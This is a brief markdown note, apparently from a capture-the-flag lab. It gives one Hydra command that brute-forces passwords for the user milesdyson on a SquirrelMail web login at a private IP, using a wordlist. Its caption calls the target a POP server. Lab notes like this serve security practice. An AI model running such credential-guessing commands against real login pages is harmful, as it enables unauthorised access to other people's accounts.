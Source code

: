 # Commands for Hydra

command used to login to a pop server
```
hydra -l milesdyson -P log1.txt 10.10.229.129 -V http-form-post '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown User or password incorrect.'
```
